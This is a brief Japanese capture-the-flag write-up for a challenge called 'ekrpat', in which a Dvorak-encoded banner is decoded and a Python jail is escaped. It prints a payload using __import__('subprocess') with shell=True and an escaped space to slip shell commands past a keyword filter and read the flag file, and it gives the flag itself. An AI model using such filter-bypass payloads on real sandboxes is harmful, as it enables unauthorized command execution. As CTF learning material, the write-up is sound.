

# Writeup

`nc`コマンドを実行すると以下のメッセージが表示される。

```
Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
```

問題タイトルの`ekrpat`で調べると、次のキーボード画像が見つかった。



これは、**Dvorak配列**とよばれるキー配列だということが分かった。

以下のサイトを使って変換してみる。

* https://www.geocachingtoolbox.com/index.php?lang=en&page=dvorakKeyboard

```
You've broken my code! Escape without the help of eval, exec, import, open, os, read, system, and write. First, enter 'dvorak'. You will then get another input which you can use try to break out of the jail.
```

dvorakと入力した後、Pythonプログラムが実行できる。上のメッセージにも書いてある通り`eval`や`exec`等が使えないので工夫する。

```bash
>>> dvorak
>>> __import__('subprocess').call('dir',shell=True);              
Dockerfile  ekrpat.py  flag  ojal.  ynetd
Dockerfile  ekrpat.py  flag  ojal.  ynetd
Play by the rules!!! Try again.

>>> dvorak
>>> __import__('subprocess').call('cat\x20flag',shell=True);print('hoge');
UMASS{dvorak_rules}
UMASS{dvorak_rules}
hoge
hoge
```

<!-- UMASS{dvorak_rules} -->